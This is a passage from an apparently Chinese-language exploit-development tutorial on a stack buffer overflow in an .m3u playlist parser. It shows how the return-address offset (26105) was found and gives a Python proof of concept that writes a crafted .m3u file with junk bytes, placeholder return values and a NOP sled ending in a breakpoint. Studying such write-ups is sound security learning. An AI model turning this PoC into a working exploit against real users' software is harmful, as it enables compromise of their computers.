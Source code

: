 因为数据过巨，控制台显示不完整，我们找到输出的pattern.txt：

![](/images/180624_9.png)

用HEX这30000个字节数据替代之前的poc.py中的junk（数据太长，不贴代码了）。

可以观察到这一组数据有很明显的特征，可以根据这一组精心够造的序列轻易的判断出ret addr是哪4个连续的字节。

再次调试，看看ret addr跳到了哪里：

![](/images/180624_10.png)

因为Intel是小端，所以我们把地址换成"\x48\x6d\x33\x48"，把这4个字节在30000个字节中搜索一下，就知道ret addr的偏移了。

可以手动搜索，也可以继续用mona.py插件提供的pattern_offset。最终找到偏移为26105。

先把ret addr填充一下，测试是否正确：

```python
#!/usr/bin/python
import sys

header = "\x23\x45\x58\x54\x4D\x33\x55\x0D\x0A\x23\x45\x58\x54\x49\x4E\x46" 
header += "\x3A\x33\x3A\x35\x30\x2C\x4C\x61\x6D\x62\x20\x4F\x66\x20\x47\x6F"
header += "\x64\x20\x2D\x20\x53\x65\x74\x20\x54\x6F\x20\x46\x61\x69\x6C\x20"
header += "\x0D\x0A\x44\x3A\x5C"

junk = "\x41"*26105
ebp = "\x42\x42\x42\x42"
ret = "\x43\x43\x43\x43"
shellcode = "\x90" * 220 + "\xcc"

payload = header + junk + ebp + ret + shellcode

if len(sys.argv) < 2:
    print 'usage: python ' + sys.argv[0] +' name.m3u'
else:
    with open(sys.argv[1],"w") as f:
        f.write(payload)
```

按照payload布局，应该会ret回0x43434343:

![](/images/180624_11.png)

## 编写exp

下面就是研究一下，返回时，各个寄存器尤其是esp指向哪里，是否有某个寄存器指向栈空间：

![](/images/180624_12.png)

可以发现此时esp指向0x000ff660，而该位置是覆盖ret addr处的地址+8。

> 一般来讲，由于栈帧、函数调用的设计在ret之后，esp指针通常都是指向此前ret addr地址+4处的地址。但由于不同的调用约定，以及一些其他的因素，可能esp指针会发生变化。这里之所以指向的是ret addr+8而不是ret addr+4是因为平衡栈帧的操作是在被调用者中进行的。调用者应该传递了一个参数。
